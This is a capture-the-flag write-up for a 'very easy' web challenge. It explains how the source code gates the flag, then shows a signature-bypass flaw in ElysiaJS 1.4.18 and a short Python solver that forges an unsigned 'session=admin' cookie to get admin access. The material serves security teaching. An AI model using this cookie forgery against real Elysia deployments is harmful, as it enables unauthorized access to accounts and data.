




 <font size='10'>Gatery</font>

22<sup>nd</sup> June 2026

Prepared By: `lordrukie`

Challenge Author(s): `lordrukie`

Difficulty: <font color='green'>Very Easy</font>

<br><br>

# Synopsis

Gatery is a very easy web exploitation challenge in which players must escalate their privileges to pass through the gate. The solution involves exploiting a signed-cookie validation bypass in ElysiaJS to forge an admin token, bypass authorization checks, and obtain the flag.

## Description

Lysa Harrowmere reaches Crownspire with proof that a trusted castle informant is selling patrol routes to the enemy. The information is being used to ambush messengers, delay supplies, and keep Stormbound’s allies divided. The only person who can act on the proof is inside the castle for a closed council, but Lysa’s name has been removed from the entry list and the guards have orders to admit no unscheduled visitors. If she waits, the council ends and the traitor disappears with the next route packet. If she speaks openly at the gate, the proof is seized before it reaches the right hands. Lysa must trick the guarded passage, get inside, and place the evidence with the one ally who can expose the leak before the enemy moves again.
objective: Exploit an ElysiaJS signed-cookie validation bypass in the castle gate web application to enter the protected area and retrieve the flag.

## Skills Required

- JavaScript and TypeScript source review
- Cookie and session handling concepts

## Skills Learned

- Identifying and exploiting public vulnerabilities that do not yet have a CVE assignment
- Performing a cookie signature bypass

# Enumeration

We start outside a castle gate. The page is a small game scene with guards blocking the way.



When we walk toward the gate, the guards ask for a username and password.



With no valid credentials yet, the next step is to understand how the challenge expects the gate to open.

## Analyzing the source code

First, we locate the flag. The Dockerfile copies `flag.txt` into the container as `/flag.txt`.

```dockerfile
COPY flag.txt /flag.txt
```

The backend reads that file during startup and stores it in `flag`.

```ts
const flag = (await Bun.file('/flag.txt').text()).trim()
```

Now we check how the backend returns that value. The `/api/flag` route only returns the flag when the current session value is `inside`.

```ts
.post('/api/flag', ({ cookie, set }) => {
  const session = getSessionValue(cookie)

  if (!session) {
    set.status = 401
    return { ok: false, message: 'Login required' }
  }

  if (session !== 'inside') {
    set.status = 403
    return { ok: false, message: 'Enter the castle first' }
  }

  return { ok: true, flag }
})
```

So the next goal is reaching the `inside` state. The `/api/gate/enter` route performs that transition. It checks for gate authority and then updates the session to `inside`.

```ts
.post('/api/gate/enter', ({ cookie, set }) => {
  if (!getSessionValue(cookie)) {
    set.status = 401
    return { ok: false, message: 'Login required' }
  }

  if (!isAdminSession(cookie)) {
    set.status = 403
    return { ok: false, message: 'Gate authority required' }
  }

  setSessionCookie(cookie, 'inside')

  return { ok: true, insideGate: true }
})
```

Gate authority comes from the session helper. The accepted values are `admin` and `inside`.

```ts
function getSessionValue(cookie: Record<string, { value?: unknown }>) {
  const session = cookie[sessionCookie]?.value

  return typeof session === 'string' && session ? session : null
}

function isAdminSession(cookie: Record<string, { value?: unknown }>) {
  const session = getSessionValue(cookie)

  return session === 'admin' || session === 'inside'
}
```

To get the `admin` session through the normal flow, we need to log in as the admin user. A successful login sets the session cookie to `admin`.

```ts
.post('/api/login', async ({ body, cookie, set }) => {
  const credentials = body as { username?: string; password?: string }
  const user = credentials.username ? findUser.get(credentials.username) : null
  const passwordMatches =
    Boolean(credentials.password && user) &&
    await bcrypt.compare(credentials.password!, user!.password_hash)

  if (!user || !passwordMatches || user.role !== 'admin') {
    set.status = 401
    return { ok: false, message: 'Invalid credentials' }
  }

  setSessionCookie(cookie, 'admin')

  return { ok: true, role: user.role, gateOpen: true, insideGate: false }
})
```

The admin credentials are the blocker. The password is generated during startup and only the bcrypt hash is stored.

```ts
const adminPassword = randomBytes(24).toString('base64url')
const adminPasswordHash = await bcrypt.hash(adminPassword, 12)

db.query(
  `INSERT INTO users (username, password_hash, role)
   VALUES (?, ?, ?)
   ON CONFLICT(username) DO UPDATE SET
     password_hash = excluded.password_hash,
     role = excluded.role`
).run('admin', adminPasswordHash, 'admin')
```

The normal path is blocked by that random password. We need admin authority to enter the gate, and we need the `inside` state before `/api/flag` returns the flag.

# Solution

## Finding the vulnerability

The application uses Elysia `1.4.18` even tho at the time of this writing the Elysia version was up to `1.4.29`. If we try to search for any vulnerability existed on this specific elysiajs version, we eventually comes across [this blog](https://devansh.bearblog.dev/elysiajs/).

The blog explain vulnerability in elysiajs regarding of cookie signature validation bypass when elysia are configured with array secrets, which the challenge also did!

```js
const app = new Elysia({
  cookie: {
    secrets: [sessionSecret],
    sign: [sessionCookie]
  }
})
```

In order to replicate the finding, we only need to setup new cookie using only a Value and removing the Signature section entirely. So cookie `session=admin` will pass the authorization gate.

We can try supply this cookie on the browser and see that the gate is now opened!



Now all we need to do is visiting the old man to retrieve the flag



## Exploitation

The entire step can be simplified by using following solver script.


```python
import sys
from urllib.parse import urlparse

import requests

base_url = sys.argv[1].rstrip("/") if len(sys.argv) > 1 else "http://127.0.0.1:18080"
hostname = urlparse(base_url).hostname

session = requests.Session()
session.cookies.set("session", "admin", domain=hostname, path="/")

response = session.get(f"{base_url}/api/me")
response.raise_for_status()

response = session.post(f"{base_url}/api/gate/enter", json={})
response.raise_for_status()

response = session.post(f"{base_url}/api/flag", json={})
response.raise_for_status()

print(response.json()["flag"])
```

The solver follows the same flow.

1. We send `session=admin` so the backend treats us as an authorized gate user.
2. We call `/api/gate/enter` so the backend moves the session state to `inside`.
3. We call `/api/flag` while the session is inside the castle.